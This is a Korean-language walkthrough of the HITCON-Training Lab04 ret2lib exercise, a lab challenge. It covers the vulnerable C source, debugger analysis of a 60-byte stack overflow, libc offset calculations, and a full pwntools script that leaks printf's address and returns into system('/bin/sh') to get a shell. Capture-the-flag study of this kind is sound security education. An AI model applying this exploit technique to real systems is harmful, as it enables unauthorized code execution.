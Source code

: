 # [HITCON-Training] Lab04 ret2lib 풀이

- checksec을 통해 보호기법 확인하기

![image](https://user-images.githubusercontent.com/59410565/118209666-023b2980-b4a4-11eb-8c11-89ae5ef44e8f.png)

32bit 파일이고, Partial RELRO와 NX가 적용되어 있다. RET 변조를 통해 문제를 해결할 수 있을 것 같다.

- ret2lic 코드 살펴보기

```c
#include <stdio.h>

void See_something(unsigned int addr){
	int *address ;
	address = (int *)addr ;
	printf("The content of the address : %p\n",*address);
};

void Print_message(char *mesg){
	char buf[48];
	strcpy(buf,mesg);
	printf("Your message is : %s",buf);
}

int main(){
	char address[10] ;
	char message[256];
	unsigned int addr ;
	puts("###############################");
	puts("Do you know return to library ?");
	puts("###############################");
	puts("What do you want to see in memory?");
	printf("Give me an address (in dec) :");
	fflush(stdout);
	read(0,address,10);
	addr = strtol(address);
	See_something(addr) ;
	printf("Leave some message for me :");
	fflush(stdout);
	read(0,message,256);
	Print_message(message);
	puts("Thanks you ~");
	return 0 ;
}
```

//main() 함수

> 저번에 정리했던 Lazenca Return to libc와 비슷한 구조인 것 같다.

- read() 함수가 정해진 address와 message길이만큼 읽어오기 때문에 overflow가 불가능하다.
- fflush() 함수는 파일 스트림 버퍼를 비우는 함수이다. 성공시 0을 반환하고, 에러시 EOF를 반환한다.

//See_something() 함수

- address 변수의 주소를 출력한다. leak에 사용

//Print_message() 함수

- dest에 src를 복사하는데 이때 buf의 크기(48)보다 mesg의 크기(256)가 작기 때문에 overflow가 발생한다. 

------



### 풀이

![image](https://user-images.githubusercontent.com/59410565/118213181-65c75600-b4a8-11eb-8f66-aa66a495fe2b.png)

**[Break Point]**

- Print_message + 0 : Print_message()의 첫 번째 명령어
- Print_message + 19 : strcpy() 함수 호출
- Print_message + 44 : Print_message()의 RET 명령어

![image](https://user-images.githubusercontent.com/59410565/118213572-2f3e0b00-b4a9-11eb-9b5a-b83af8d54a62.png)

프로그램을 실행시키고 아무 숫자나 입력했더니 Segmentation fault가 떴다.

- leak을 위해 IDA로 printf 주소 알아내기

> system 함수의 주소를 찾듯이 "print printf"를 사용해도 가능

![image](https://user-images.githubusercontent.com/59410565/118215248-26026d80-b4ac-11eb-9020-25e6d4ef1be3.png)

printf()의 주소는 0x0804a010이다. 이 주소를 10진수로 변환하여 입력해주면 segmentation fault 없이 실행할 수 있을 것 같다.

![image](https://user-images.githubusercontent.com/59410565/118215592-c22c7480-b4ac-11eb-891c-808c1e3bc7bc.png)

다시 실행해보자.

![image](https://user-images.githubusercontent.com/59410565/118215640-e38d6080-b4ac-11eb-9894-83ebb2d03e00.png)

다음으로 잘 넘어가는 것을 볼 수 있다. print() 함수의 주소는 **0xf7e4c680**이다.

이제 message의 크기만큼 A를 입력해보자.

![image](https://user-images.githubusercontent.com/59410565/118215743-1c2d3a00-b4ad-11eb-8baf-0c21f64b0d44.png)

![image](https://user-images.githubusercontent.com/59410565/118215841-54347d00-b4ad-11eb-9be9-a6821eb59ba4.png)

Print_message() 함수의 최상위 스택 주소는 0xffffcedc이다. 이 영역에 Return address(0x08048657)가 저장되어 있다.

![image](https://user-images.githubusercontent.com/59410565/118216032-b2616000-b4ad-11eb-9d5e-46937de0ab39.png)

![image](https://user-images.githubusercontent.com/59410565/118216190-ffddcd00-b4ad-11eb-8d8a-ae21daa372ac.png)

buf(=dest)의 위치는 0xffffcea0이고, Return address와 60byte 떨어져 있다. 즉, 문자를 60개 이상 입력하면, Return address를 덮어쓸 수 있다.

![image](https://user-images.githubusercontent.com/59410565/118216361-54814800-b4ae-11eb-8251-0f2b4d23e86c.png)  

![image](https://user-images.githubusercontent.com/59410565/118216404-66fb8180-b4ae-11eb-801c-a42f89ce2ab4.png)

0xffffcedc의 영역이 바뀌었다.

**["/bin/sh" 주소 찾기]**

![image](https://user-images.githubusercontent.com/59410565/118216513-9e6a2e00-b4ae-11eb-98a2-6c10b258a691.png) 

- 0xf7e4c680(printf function address in libc) - 0xf7e0c000(libc Start Address) = 0x40680(libc Base Address offset)
- 0xf7e3ddb0(system function address in libc) - 0xf7e0c000(libc Start Address) = 0x31db0(system function Address offset)
- 0xf7f5eb2b("/bin/sh" string address in libc) - 0xf7e0c000(libc Start Address) = 0x152b2b("/bin/sh" string Address offset)

![image](https://user-images.githubusercontent.com/59410565/118216745-0b7dc380-b4af-11eb-80c0-4ba0c99ff8db.png)

------



### Exploit

```python
from pwn import *

p = process("./ret2lib")

p.sendlineafter("Give me an address (in dec) :", "134520848")

p.recvuntil("The content of the address : ")
printAddr = p.recvuntil('\n')
printAddr = int(printAddr, 16)

libcBase = printAddr - 0x40680
sysAddr = libcBase + 0x31db0
binsh = libcBase + 0x152b2b
p.recvuntil("Leave some message for me :")

print hex(libcBase)
print hex(sysAddr)
print hex(binsh)

exploit = "A" * 60
exploit += p32(sysAddr)
exploit += 'BBBB'
exploit += p32(binsh)

p.send(exploit)
p.interactive()

```



![image](https://user-images.githubusercontent.com/59410565/118217954-703a1d80-b4b1-11eb-81b0-34b6a33c58e8.png)

